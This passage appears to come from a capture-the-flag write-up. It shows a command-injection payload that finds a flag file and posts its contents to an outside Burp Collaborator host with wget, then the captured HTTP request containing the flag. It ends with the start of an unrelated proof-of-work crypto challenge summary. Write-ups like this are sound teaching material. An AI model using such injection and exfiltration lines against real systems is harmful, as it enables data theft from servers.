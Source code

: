 Lets exfiltrate with dig. Too tedious.

Found out that curl wasn’t available. Also slashes didn’t work. A lot of tries later I came up with this.

```bash
$(find src | grep flag.js | head -n1 | xargs -I{} wget v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net --post-data a={})
```

And I got

```http
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

a=module.exports = ECSC{98028539a362efecbde13ae4df924e02432555bb1f4730219938330651d84f35};
```


Crypto Luck (150p): Crypto
============


**Summary**

Proof of work challenge. A random value was generated on the server. The player was required to have an input that matched the first 6 bytes of the hashed with sha1 random value. After 10 valid reports (on the same connection), I got the flag.
